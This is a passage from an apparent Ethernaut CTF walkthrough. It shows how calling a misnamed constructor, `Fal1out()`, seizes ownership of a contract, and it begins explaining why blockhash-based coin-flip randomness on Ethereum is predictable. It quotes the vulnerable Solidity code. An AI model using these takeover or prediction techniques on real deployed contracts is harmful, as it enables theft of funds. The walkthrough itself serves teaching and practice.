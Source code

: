 ```solidity
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
```

If we simply call the `Fal1out()` method, we can claim ownership of this contract.
This can be done in two ways –
For completing the challenge using the browser’s developer console, find the commands listed below :

```javascript
await contract.Fal1out()
```

For completing this challenge using remix, find the smart contract below :

```solidity
pragma solidity ^0.8
interface IFallout {
    function Fal1out() external payable;
}
```

This contract uses interface to make an external call to the `Fal1out` method in our challenge contract. If we deploy this contract at our instance address, and call the `Fal1out` method manually, we will become the owner of this contract.

___
## Level 3 [Coin Flip]

This level is aimed at showing that all transactions on the Ethereum blockchain are deterministic state transition operations, meaning that every transaction modifies the global state of the Ethereum ecosystem and it does so in a calculable way with no uncertainty. Hence, there is no existence of randomness in a blockchain. Also, when a contract is deployed on the blockchain, the code is visible to everyone, so figuring out the outcome of an apparently random code generator is really easy, and in reality not random at all.
This challenge is a coin flipping game, and we have to guess the outcome of the coin flip correctly 10 times in a row to pass the challenge. The `flip()` method takes an input of type Boolean which is the guess and checks it against the outcome of an algorithm which uses block number to generate a result.

```solidity
  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
```
